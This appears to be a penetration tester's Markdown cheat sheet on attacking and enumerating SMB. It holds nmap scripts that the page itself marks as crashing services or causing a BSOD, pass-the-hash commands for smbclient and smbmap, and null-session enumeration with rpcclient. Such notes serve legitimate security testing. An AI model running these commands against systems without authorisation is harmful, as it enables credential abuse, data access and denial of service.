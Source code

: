 ```yaml
---
layout: default
title: SMB
tags:
    - 139
    - 445
    - block
    - message
    - samba
    - server
    - smbclient
    - smbd
    - smbmap
---
```

# SMB
## Nmap scripts
Safe vulnerability scan
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-ms06-025,smb-vuln-ms07-029,smb-vuln-ms08-067,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-vuln-cve-2017-7494 <ip>
```

Windows 2000 regsvc null pointer crash (_**service crashes if successful**_)
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-regsvc-dos <ip>
```

CVE-2009-3103 DOS check (Windows Vista and some of 7 - _**BSOD if successful**_)
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-cve2009-3103 <ip>
```

CVE-2010-2550 memory corruption check (_**BSOD if successful**_)
```shell
nmap -p 445 -sT -Pn --script=smb-vuln-ms10-054 <ip>
```

## Pass-the-hash
List directories
```shell
smbclient -U <user>%<hash> --pw-nt-hash -L <ip>
```
```shell
smbmap -u <user> -p '<NTLM hash>:<LM hash>' -H <ip>
```
- _LM hash is legacy and can usually be anything_
- `--download <path>`: download file
- `-R`: recursively list files

Open specific directory

```shell
smbclient -U <user>%<hash> --pw-nt-hash //<ip>/<directory>
```

## Regular usage
Mount
```shell
mount -t cifs -o username=<username> //<ip>/ /mnt/smb/
```

Enumerate
```shell
smbmap -H <ip>
smbmap -H <ip> -u <username>  # adding anything as the <username> will sometimes return results
enum4linux -v <ip>            # wrapper around tools such as rpcclient that gives lots of info
rpcclient -U <username> <ip>  # "" <username> for null sessions, empty password when prompted
```
- Commands while connected via rpcclient:
    - `srvinfo` gives server details
    - `enumdomuser` gives configured users
    - `getdompwinfo` gives domain password policy

## Locally
What is exposed?
```powershell
net share          # List shares
net share <share>  # Info about share
```